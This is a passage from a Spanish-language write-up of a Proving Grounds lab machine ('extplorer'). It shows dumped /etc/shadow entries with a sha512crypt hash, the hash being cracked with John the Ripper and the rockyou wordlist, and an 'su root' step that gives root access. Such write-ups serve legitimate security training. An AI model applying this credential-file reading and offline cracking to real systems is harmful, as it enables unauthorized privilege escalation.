 ```bash
sshd:*:19381:0:99999:7:::
systemd-coredump:!!:19381::::::
lxd:!:19381::::::
fwupd-refresh:*:19381:0:99999:7:::
dora:$6$PkzB/mtNayFM5eVp$b6LU19HBQaOqbTehc6/LEk8DC2NegpqftuDDAvOK20c6yf3dFo0esC0vOoNWHqvzF0aEb3jxk39sQ/S4vGoGm/:19453:0:99999:7:::
```
Crackeamos la contraseña de root:

```bash
john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
********         (?)
1g 0:00:00:00 DONE (2025-03-02 00:12) 1.063g/s 3540p/s 3540c/s 3540C/s adriano..cartman
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Shell como **root**

```bash
su root
```

<p align="center">
<img src="/assets/images/pg-writeup-extplorer/Pasted image 20250407202436.png">
</p>

Y somos **root** 😎

<p align="center">
<img src="/assets/images/pg-writeup-extplorer/leonardo-dicaprio-clapping.gif">
</p>

¡Perfecto, máquina completada 🥳! Gracias por leer el post, espero haber sido de ayuda. Si te gusta mi contenido, puedes encontrarme en LinkedIn y GitHub, donde suelo subir herramientas útiles.


